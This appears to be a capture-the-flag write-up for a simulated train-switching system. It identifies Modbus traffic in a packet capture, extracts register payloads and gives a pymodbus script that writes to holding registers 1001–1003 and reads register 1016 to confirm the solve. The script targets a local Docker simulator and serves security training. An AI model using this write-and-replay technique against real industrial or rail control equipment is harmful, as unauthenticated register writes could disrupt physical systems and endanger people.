

# Exploraion 

## train 
 

## File
- `Dockerfile` and `insomniTrainSim` use for poc in local 
- `train_guide.txt` general infomation of rail switching
- `insomniTrains.pcap` example of interaction with insomniTrainSim

## Protocol
find in the `insomniTrains.pcap` the Protocol for the communicate to the `insomniTrainSim` is [Modbus](https://en.wikipedia.org/wiki/Modbus) 

### function use in example
- Read Holding Registers (3)
- Write Multiple Registers (16)

### Write Registers in example
I identified three paloads which are four writings of three registers `1001`, `1002`, `1003`
```python
paload1 = [
    [17201, 21297, 12336],
    [21332, 21297, 12336],
    [17202, 21297, 12336],
    [21317, 21297, 12336],
]

paload2 = [
    [17201, 21299, 12336],
    [21332, 21299, 12336],
    [17202, 21299, 12336],
    [21317, 21299, 12336],
]

paload3 = [
    [17201, 21297, 12337],
    [21332, 21297, 12337],
    [17202, 21297, 12337],
    [21317, 21297, 12337],
]
```

# POC 

## run simulation
```sh 
$ docker buildx build --tag trains .
$ docker run -it trains:latest
Simulating InsomniTrains...

1. Understand insomniTains.pcap

2. Craft your payload and send

3. Read starting at 1016 to check your solution!

Have fun!

```
you must therefore read the register `1016` and the value must only be `TRY HARDER`, at first I didn't understand that these were two `char`

## solution for the simulation
I used the python module [pymodbus](https://pymodbus.readthedocs.io/en/latest/) 
```python
from pymodbus.client import ModbusTcpClient
import time


def sendPaload(paload):
    for value in paload:
        client.write_registers(1001, value, slave=0)
        time.sleep(0.1)

    result = client.read_holding_registers(
        1016, 1, slave=0
    )  # get information from device
    print(result.registers)  # use information
    print(result.bits)  # use information
    time.sleep(0.1)


client = ModbusTcpClient("172.17.0.2")  # Create client object
client.connect()  # connect to device, reconnect automatically

client.write_registers(1001, [17201, 21292, 12336], slave=0)
result = client.read_holding_registers(1016, 1, slave=0)  # get information from device
print(result.registers)  # use information
print(result.bits)  # use information
paload1 = [
    [17201, 21297, 12336],
    [21332, 21297, 12336],
    [17202, 21297, 12336],
    [21317, 21297, 12336],
]

paload2 = [
    [17201, 21299, 12336],
    [21332, 21299, 12336],
    [17202, 21299, 12336],
    [21317, 21299, 12336],
]

paload3 = [
    [17201, 21297, 12337],
    [21332, 21297, 12337],
    [17202, 21297, 12337],
    [21317, 21297, 12337],
]
print("paload1")
sendPaload(paload1)
print("paload2")
sendPaload(paload2)
print("paload3")
sendPaload(paload3)
print("paload3")
sendPaload(paload3)
result = client.read_holding_registers(1016, 1, slave=0)  # get information from device
print(result.registers)  # use information
print(result.bits)  # use information
client.close()  # Disconnect device
```
after several executions of the script I saw that the value of register `1006` had changed from `21586` to `18255`

### Identify the correct payload

the good payload is 
```python
paload3 = [
    [17201, 21297, 12337],
    [21332, 21297, 12337],
    [17202, 21297, 12337],
    [21317, 21297, 12337],
]
```

### Check if the simulation is resolved 
run `read1016.py` after `5` seconds
